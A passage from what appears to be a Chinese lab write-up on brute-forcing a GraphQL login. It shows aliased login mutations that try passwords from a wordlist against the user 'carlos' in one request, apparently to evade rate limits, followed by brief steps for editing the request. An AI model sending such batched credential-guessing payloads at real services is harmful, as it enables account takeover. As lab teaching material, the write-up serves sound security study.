 ```bash
    }


bruteforce95:login(input:{password: "monitor", username: "carlos"}) {
        token
        success
    }


bruteforce96:login(input:{password: "monitoring", username: "carlos"}) {
        token
        success
    }


bruteforce97:login(input:{password: "montana", username: "carlos"}) {
        token
        success
    }


bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }


bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }
```

随后先更改请求报文：  
[![](assets/1708485015-e3507fab0aa5a5098b47208c3d5348bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240220155201-ee2c1802-cfc4-1.png)  
进行数据的替换操作：  